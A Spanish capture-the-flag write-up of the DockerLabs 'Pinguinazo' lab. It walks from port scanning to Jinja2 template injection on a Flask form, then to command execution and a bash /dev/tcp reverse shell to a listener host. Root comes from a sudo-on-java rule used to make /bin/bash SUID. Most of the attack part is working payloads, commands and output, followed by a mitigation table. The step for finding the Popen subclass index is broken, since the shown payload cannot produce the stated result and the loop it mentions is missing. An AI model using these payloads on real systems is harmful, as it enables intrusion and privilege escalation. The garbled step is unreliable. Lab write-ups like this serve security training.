

# Pinguinazo — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.17.0.2 | 

## Descripcion 

Laboratorio para practicar la vulnerabilidad SSTI y escalada de privilegios abusando de Java mediante sudo.

## Attack chain

**Nmap → Web Enumeration → Gobuster → SSTI (Jinja2) → Remote Code Execution → Reverse Shell → pinguinazo Access → Sudo Misconfiguration (Java) → SUID Bash → Root**

## 1. Analisis y escaneo del objetivo.

Escaneo completo de puertos con `nmap`:

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/pinguinazo]
└─$ nmap -sV -sC -p- 172.17.0.2 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-09 15:59 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
5000/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.12.3)
|_http-server-header: Werkzeug/3.0.1 Python/3.12.3
|_http-title: Pingu Flask Web
MAC Address: C6:8D:CC:09:B2:DF (Unknown)

```
Único puerto abierto: 5000/tcp, corriendo una aplicación Flask (servidor de desarrollo Werkzeug).



## 2. Enumeracion WEB 

Fuzzing de directorios con `gobuster`:

```bash
                                                                                                                                 
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/pinguinazo]
└─$ gobuster dir -u http://172.17.0.2:5000 -w /usr/share/wordlists/dirb/common.txt -x php,txt,json
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2:5000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              txt,json,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
console              (Status: 200) [Size: 1563]
Progress: 18452 / 18452 (100.00%)
===============================================================
Finished
===============================================================

```
Se detecta la ruta `/console`, correspondiente a la consola interactiva del debugger de Werkzeug, protegida por un PIN.

Al visitar la raíz (`/`), se encuentra un formulario `PinguRegistro` que envía datos por POST a /greet, con los campos `name`, `birthday`, `email` y `phone`.:

 
## 3.  Explotación — SSTI en Jinja2

### 3.1 Confirmación de la vulnerabilidad

Se prueba una expresión matemática clásica para detectar SSTI en el campo `name`:

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/pinguinazo]
└─$ curl -s http://172.17.0.2:5000/greet --data "name={{7*7}}&birthday=01/01/2000&email=admin@pingulab.lab&phone=123456789"

```
Respuesta:

```bash

Hello 49! 

```
El servidor evalúa la expresión Jinja2 en lugar de tratarla como texto plano → SSTI confirmada.

### 3.2 Escalando a RCE

Partiendo de un objeto cualquiera (en este caso un string vacío `''`), se puede llegar a la clase base `object` a través de `__class__.__mro__[1]` (el *Method Resolution Order*, donde la posición `1` es siempre `object` para tipos simples como `str`). El método `object.__subclasses__()` devuelve todas las subclases **directas** de `object` que estén cargadas en el intérprete — y en Python 3, la gran mayoría de las clases top-level (incluida `subprocess.Popen`) heredan directamente de `object`, por lo que aparecen en esa lista aunque no se esté haciendo un recorrido recursivo del árbol de herencia.

Primero se localiza el índice de `Popen` dentro de esa lista:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/pinguinazo]
└─$ curl -s http://172.17.0.2:5000/greet --data-urlencode "name={{ loop.index0 }}" --data "birthday=01/01/2000&email=admin@pingulab.lab&phone=123456789"                                                                                         
Hello 550! 
```

**Resultado:** índice `550`.

> ⚠️ Este índice **no es un valor fijo**: depende de qué módulos estén cargados en el intérprete de Python en el momento de la ejecución, por lo que puede variar entre reinicios del contenedor o en otras instancias de la máquina. Siempre hay que recalcularlo con el payload del `for`/`if` de arriba antes de usarlo — no asumir que `550` va a ser el mismo en otro entorno.

Con el índice obtenido, se ejecuta un comando de prueba:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/pinguinazo]
└─$ curl -s http://172.17.0.2:5000/greet --data-urlencode "name={{ ''.__class__.__mro__[1].__subclasses__()[550]('id', shell=True, stdout=-1).communicate() }}" --data "birthday=01/01/2000&email=admin@pingulab.lab&phone=123456789"
```

**Respuesta:**
```
Hello (b'uid=1001(pinguinazo) gid=1001(pinguinazo) groups=1001(pinguinazo),100(users)\n', None)!
```

RCE confirmado como el usuario `pinguinazo`.

### Obtención de shell interactiva

Usando redirección de bash sobre `/dev/tcp` (evita depender de que nc esté instalado en el contenedor, ya que no lo estaba):

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/pinguinazo]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

```

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/pinguinazo]
└─$ curl -s http://172.17.0.2:5000/greet --data-urlencode "name={{ ''.__class__.__mro__[1].__subclasses__()[550]('bash -c \"bash -i >& /dev/tcp/172.17.0.1/4444 0>&1\"', shell=True, stdout=-1).communicate() }}" --data "birthday=01/01/2000&email=admin@pingulab.lab&phone=123456789"

```

Shell reversa obtenida como `pinguinazo`.


> **Nota sobre el debugger de Werkzeug:** aunque se identificó `/console`, no fue necesario calcular el PIN para avanzar, ya que la RCE vía SSTI ofrece las mismas capacidades (ejecución de Python en el servidor).

---

## 4. Escalada de privilegios

### 4.1 Enumeración

```bash
pinguinazo@067fce8c77c9:~$ sudo -l
sudo -l
Matching Defaults entries for pinguinazo on 067fce8c77c9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pinguinazo may run the following commands on 067fce8c77c9:
    (ALL) NOPASSWD: /usr/bin/java
pinguinazo@067fce8c77c9:~$ 

```
El usuario puede ejecutar `java` como root sin contraseña. Esto es explotable según [GTFOBins](https://gtfobins.github.io/gtfobins/java/): al correr con privilegios de root, cualquier proceso que `java` lance mediante `Runtime.exec()` hereda esos mismos privilegios.

### 4.2 Explotación

Se crea una clase Java mínima que otorga el bit SUID a `/bin/bash`:

```bash

pinguinazo@067fce8c77c9:/tmp$ cd /tmp
pinguinazo@067fce8c77c9:/tmp$ cat > Privesc2.java << 'EOF'
> public class Privesc2 {
>     public static void main(String[] args) throws Exception {
>         Runtime.getRuntime().exec(new String[]{"chmod","u+s","/bin/bash"}).waitFor();
>     }
> }
> EOF
pinguinazo@067fce8c77c9:/tmp$ javac Privesc2.java
pinguinazo@067fce8c77c9:/tmp$ sudo java -cp /tmp Privesc2

```
Con el bit SUID activo, se invoca bash manteniendo el EUID heredado:

```bash

pinguinazo@067fce8c77c9:/tmp$ /bin/bash -p
bash-5.2# id
uid=1001(pinguinazo) gid=1001(pinguinazo) euid=0(root) groups=1001(pinguinazo),100(users)
bash-5.2# whoami
root
bash-5.2# 

```

# Conclusión

A partir del escaneo inicial con **Nmap**, se identificó una aplicación Flask ejecutándose en el puerto `5000`. Durante la enumeración web, mediante **Gobuster**, se descubrió la ruta `/console`. Posteriormente, al analizar el formulario de registro, se identificó una vulnerabilidad **SSTI en Jinja2**, que permitió ejecutar comandos remotamente y obtener una shell reversa como el usuario `pinguinazo`.

Una vez dentro del sistema, se revisaron los permisos mediante `sudo -l`, identificando que `pinguinazo` podía ejecutar `/usr/bin/java` como `root` sin necesidad de contraseña. Aprovechando esta configuración, se creó un programa Java para modificar los permisos de `/bin/bash` y habilitar el bit SUID.

Finalmente, ejecutando Bash con la opción `-p`, se consiguió acceso como `root`, completando la máquina.

En conclusión, **Pinguinazo** permite comprender cómo una vulnerabilidad SSTI puede facilitar la ejecución remota de comandos y cómo una configuración incorrecta de `sudo` sobre Java puede utilizarse para escalar privilegios dentro de un sistema.

| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **SSTI en Jinja2** | Permite ejecutar expresiones y acceder a funcionalidades internas del servidor. | Evitar procesar entradas de usuario como plantillas y utilizar mecanismos de renderizado seguros. |
| **Remote Code Execution (RCE)** | Permite ejecutar comandos arbitrarios en el servidor. | Validar las entradas, restringir la ejecución de código y mantener las dependencias actualizadas. |
| **Configuración insegura de `sudo` sobre Java** | Permite ejecutar programas con privilegios de `root` y realizar acciones administrativas. | Restringir los permisos de `sudo` y evitar conceder acceso innecesario a intérpretes o ejecutables capaces de lanzar procesos. |
| **Abuso del bit SUID** | Permite ejecutar Bash conservando privilegios elevados. | Evitar asignar permisos SUID a binarios innecesarios y auditar periódicamente los archivos con este permiso. |

## Recomendaciones generales

- Evitar procesar entradas de usuario directamente como plantillas.
- Validar y sanitizar los datos recibidos desde formularios.
- Mantener actualizados Flask, Jinja2 y sus dependencias.
- Revisar periódicamente las configuraciones y permisos de `sudo`.
- Evitar conceder privilegios administrativos innecesarios a Java y otros intérpretes.
- Auditar los archivos con permisos SUID y aplicar el principio de mínimo privilegio.
